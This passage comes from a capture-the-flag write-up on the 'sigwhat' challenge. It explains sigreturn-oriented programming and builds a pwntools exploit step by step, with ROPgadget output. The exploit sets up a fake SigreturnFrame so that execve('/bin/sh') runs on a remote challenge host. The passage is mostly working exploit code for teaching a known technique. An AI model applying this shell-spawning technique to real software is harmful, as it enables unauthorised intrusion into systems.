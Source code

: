 The first one is inside the binary itself, and not libc, so we use that one, since ASLR will change the addresses in libc.

We also need to know the address of the `syscall` gadget, which we can find with `ROPgadget`
```console
loevland@hp-envy:~/ctf/wackattack/pwn/sigwhat$ ROPgadget --binary ./sigwhat | grep ": syscall"
0x000000000040055a : syscall
```

Now that we have created our fake frame, the last step is to create a payload which calls `sys_rt_sigreturn` to restore registers with the values in our frame.

We start with adding random bytes until we hit the return address, which is after we have supplied 8 bytes (which we found with the cyclic pattern and GDB).
```python
payload = b"A" * 8
```
{: .nolineno }

We know that `eax` must contain the value `0xf`(15). We can use the `pop rax` gadget to move the value 15 into the `eax` register, which we find the address of by using the same method as we did when we found the address of  `syscall`
```console
loevland@hp-envy:~/ctf/wackattack/pwn/sigwhat$ ROPgadget --binary ./sigwhat | grep ": pop rax"
0x0000000000400575 : pop rax ; ret
```

So our payload is updated to
```python
payload = b"A" * 8
payload += p64(pop_rax)
payload += p64(0xf)
```
{: .nolineno }

We then want to use `syscall` to perform the `sigreturn`, with our fake structure being next on the stack, updating our payload to
```python
payload = b"A" * 8
payload += p64(pop_rax)
payload += p64(0xf)
payload += p64(syscall) # Execute the sigreturn
payload += bytes(frame) # Our fake structure that will populate the registers
```
{: .nolineno }

The full exploit script is the following
```python
from pwn import *

exe = context.binary = ELF("./sigwhat", checksec=False)
io = remote("20.100.146.44", 1040)

syscall = 0x40055a
pop_rax = 0x400575

# Fake structure which will restore the registers after sigreturn
frame = SigreturnFrame()
frame.rax = 0x3b         # rax = sys_execve
frame.rdi = 0x400590     # rdi = Address of the string "/bin/sh"
frame.rsi = 0x0          # rdi = 0
frame.rdx = 0x0          # rdx = 0
frame.rip = syscall      # Execute sys_execve("/bin/sh", 0, 0) to get shell

# Payload calling sigreturn and placing our fake structure next on the stack
payload = b"A" * 8
payload += pack(pop_rax)
payload += p64(0xf)
payload += p64(syscall) # Execute the sigreturn
```
